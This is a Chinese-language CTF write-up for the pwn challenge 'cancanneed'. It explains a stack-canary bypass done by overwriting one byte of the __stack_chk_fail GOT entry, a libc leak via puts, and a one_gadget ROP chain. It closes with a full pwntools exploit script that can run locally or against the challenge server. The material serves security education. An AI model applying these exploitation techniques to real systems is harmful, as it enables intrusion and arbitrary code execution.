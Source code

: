 # cancanneed

## 出题思路

本题出题的思路是想考一考canary的绕过方式，原本预期是想通过任意7字节写入修改`fs[0x28]`位置存储的canary的值。但是考虑到该种利用方式并不常见，既然都可以任意字节写了，那么可以修改`__stack_chk_fail`函数的got表来绕过canary的检测。

同时，为了增加一些难度，进行了`close(1)`的操作，拿到shell后需要使用`exec 1>&2`的方式进行输出流重定向到错误流，这样就可以正常回显。

最后，在最后一步的rop获取shell的时候，只能写入0x18的rop链，由于栈的问题，常用的`pop_rdi、/bin/sh、system`的rop链由于缺少了`ret`进行抬栈，所以会直接EOF。为了解决这样的问题，可以选择`one_gadget`进行一步到位。考虑到libc2.35的one_gadget利用条件苛刻，出题时人为添加了一个gadget:`pop r10; ret;`，该条gadget可以配合修改rbp的值到bss段，满足如下one_gadget的条件

```bash
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

## 解题步骤

### 0x1
首先拿到题目的第一步，使用`checksec`进行检测，发现开启了`canary`，但是没开启`pie`

![checksec.png](./imgs/checksec.png)

### 0x2
再用ida打开，发现main函数中的read可以直接从ret_address的位置开始写，能够写0x20字节的rop链。同时限制了rop链不能重新执行main函数，所以不断返回main函数然后写rop的思路就无法实现了。但是可以通过puts的方式获取libc的基地址。

![main.png](./imgs/main.png)

同时由于程序没删除符号表，看到有一个vuln的函数

![vuln.png](./imgs/vuln.png)

那么第一步的思路还是比较清晰的，main中的rop链可以这样写
- pop_rdi
- elf.got["puts"]
- elf.plt["puts"]
- vuln_address

这样输出了puts函数的真实地址的同时，会继续执行`vuln`函数

### 0x3
现在来分析vuln函数，发现可以任意地址写1字节，然后有一个0x18大小的rop链可以编写。

但是存在一个问题，那就是canary如何绕过？

可以想到这个任意地址写1字节是用来绕过canary的！

但是如何绕过？

我们使用gdb启动程序，查看程序的got表，如下是从未初始化的got表，也就是一个函数都没有执行：

![gdb.png](./imgs/gdb.png)

我们知道，canary的判断函数是`__stack_chk_fail`，如果我们把这个got表给修改了，那么canary的检测就可以绕过。

但是我们有个疑问，就是上图中红框的数据是什么？

其实这就设计到了动态链接的原理，上图的红框中的地址都是第一次用来寻找libc中真实地址的跳转。如果某个函数是第一次执行，那么就会jmp到这个红框地址中，去libc中寻找这个函数的真实地址，找到之后将真实地址重新写回got表中。

所以我们可以将`__stack_chk_fail`的got表中写入一字节，让`0x404028 (__stack_chk_fail@got.plt) —▸ 0x401050`指向`0x401060`，也就是close。当然其他的可执行地址。但是实际测试只能指向read的`0x401070`和close的`0x401060`。


### 0x4

绕过了canary的检测后，我们有0x18额外的字节来写rop链。

首先想到的是常规的rop链
- pop_rdi
- /bin/sh
- system

但是由于高版本的libc需要栈对齐，但是本题没有位置输入`ret`来执行栈对齐。所以需要换一个思路——`one_gadget`

通过查询`one_gadget`的满足条件，我们发现了一个需要`r10`和`[rbp-0x70]`满足条件的gadget

```bash
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

由于我们在写rop的时候可以覆盖`rbp`，同时只需要将`rbp`指向bss段中没有数据的地方，那么就能满足`[rbp-0x70] == NULL`。

同时我们发现elf的gadget中存在一个`pop r10; ret;`，我们可以通过这个gadget将r10置为0。

![gadget.png](./imgs/gadget.png)

所以我们的rop链是
- padding
- rbp --> bss
- pop_r10
- 0
- one_gadget

这样就能获取shell辣！

### 0x5

获取了shell还不行，本题执行了`close(1)`，关闭了输出流。需要使用重定向的方式重新开启输出流：`exec 1>&2`，让输出流重定向到错误流，这样就能真正获取输出辣！

### exp

```python
#!/usr/bin/python3
# -*- coding: UTF-8 -*-
# -----------------------------------
# @File    :  exp.py
# @Author  :  woodwhale
# @Time    :  2023/03/06 12:00:25
# -----------------------------------

from pwn import *

DEBUG = 1
context.log_level = "debug"
context.arch = "amd64"

io = process("../file/cancanneed") if DEBUG else remote("101.34.90.86", 20003)
elf: ELF = ELF("../file/cancanneed")
libc: ELF = elf.libc

sa = lambda word, data: io.sendafter(word, data)
sl = lambda data: io.sendline(data)
l64 = lambda: u64(io.recvuntil(b"\x7f", False)[-6:].ljust(8, b"\x00"))

vuln_addr = 0x40124D
pop_rdi = 0x4011DE
pop_rsi = 0x4011E0
pop_r10 = 0x4011E2
__stack_chk_fail_got = 0x404028
next_rbp = 0x404900

sa("ZJNUCTF!", flat([pop_rdi, elf.got["puts"], elf.sym["puts"], vuln_addr]))
libc.address = l64() - libc.sym["puts"]
print(f"libc_base --> {libc.address:#x}")

sa("read?", p64(__stack_chk_fail_got))
sa("ok", b"\x60")
sa("canary!", b"b" * 0x20 + flat([next_rbp, pop_r10, 0, libc.address + 0xEBCF1]))

time.sleep(0.5)
sl(b"exec 1>&2")    # 重定向

io.interactive()
```